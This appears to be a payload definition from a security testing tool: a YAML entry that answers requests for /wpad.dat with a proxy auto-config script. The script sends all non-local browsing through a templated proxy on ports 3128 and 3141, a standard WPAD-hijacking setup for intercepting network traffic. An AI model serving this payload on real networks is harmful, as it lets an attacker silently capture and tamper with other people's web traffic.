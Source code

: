 ```yaml
---
title: WPAD
description: Returns a WPAD config file (Javascript).
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /wpad\.dat
    data: '{"headers":{"Content-Type":"text/javascript"},"body":"function FindProxyForURL(url, host){if ((host == \"localhost\") || shExpMatch(host, \"localhost.*\") ||(host == \"127.0.0.1\") || isPlainHostName(host)) return \"DIRECT\"; if (dnsDomainIs(host, \"{{.ProxySrvRegex}}\")||shExpMatch(host, \"(*.{{.ProxySrvRegex}}|{{.ProxySrvRegex}})\")) return \"DIRECT\"; return ''PROXY {{.ProxySrv}}:3128; PROXY {{.ProxySrv}}:3141; DIRECT'';}"}'
---
```


Depends on an internal code